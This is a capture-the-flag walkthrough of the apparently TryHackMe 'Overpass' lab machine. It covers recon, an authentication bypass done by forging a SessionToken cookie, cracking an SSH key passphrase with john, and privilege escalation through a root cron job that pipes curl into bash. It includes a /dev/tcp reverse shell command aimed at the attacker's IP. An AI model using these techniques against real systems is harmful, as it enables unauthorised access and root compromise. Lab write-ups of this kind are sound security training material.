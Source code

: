 ## Recon

### NMAP

![[nmapscan.png]]

- SSH on 22
- HTTP on 80

### HTTP server

![[overpass_landing.png]]

![[overpass_about_us.png]]

![[downloads.png]]

#### Directory scan

![[dir_scan.png]]

##### Admin

Admin page has a login form.

Hint on THM says not to bruteforce, and vector is in OWASP top 10. So either SQL injection or broken authentication.

## User

### SQLMap

SQLmap didnt show any injection points even with level 5 risk 3.

### Authentication it is then...

looking at the source code for the admin site there is a file called `login.js`. It has a function called login().

Contents of `login()`:

```javascript
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

Looks like on a successful login attempt the website sets a cookie with the name of `SessionToken`. Creating a cookie with that name and refreshing the page grants us access to the admin area. (The value of the cookie doesn't matter as the website does not authenticate it properly.)

![[cooooooooookie.png]]

Admin area contains a private RSA SSH key with a handy hint telling us to crack it ourselves.

![[admin.png]]

#### johnny boy

use `ssh2john` to convert ssh key to hash for john:

`python /usr/share/john/ssh2john.py rsa > hash`


`john --wordlist=/usr/share/wordlists/rockyou.txt hash`

![[johnnyboy.png]]

john output says the passphrase for the ssh key is `james13`.

#### SSH

Can now SSH into the machine using the RSA key and passphrase from john.

`ssh -i rsa.txt james@10.10.197.150`

![[user.png]]

flag is in landing directory.

## Root

Nothing interesting in terms of SUID files and cant run any sudo commands due to lack of system password.

Home directory contains a TODO.txt file containing:

```
To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website**
```

Apparently `Paradox` got automated builds going, probably using a cron job or something similar. We dont have perms to use crontab so will run linpeas to sniff something out.

`* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash`

Linpeas flags up a cronjob running as root every minute. Downloading the contents of `overpass.thm/downloads/src/buildscript.sh` and running it with bash. We dont have perms to edit this file to get ourselves a shell, `overpass.thm` should be in `/etc/hosts` though so we can see where it is pointing to.

![[hosts.png]]

localhost... Lets change that to our IP address.

We can then set up a python server containing `downloads/src/buildscript.sh` with our own version of `buildscript.sh`.

`builtscript.sh` contents (reverse shell):

```bash
bash -i >& /dev/tcp/10.11.47.218/4444 0>&1
```

Here we set up the python server, using port 80 as cron will request the default port.

![[python_server.png]]

Then on a listener we set up earlier, we have a root shell!

![[rooty.png]]

## Notes

Possible users:

-	Ninja
-	Pars 
-	Szymex 
-	Bee 
-	MuirlandOracle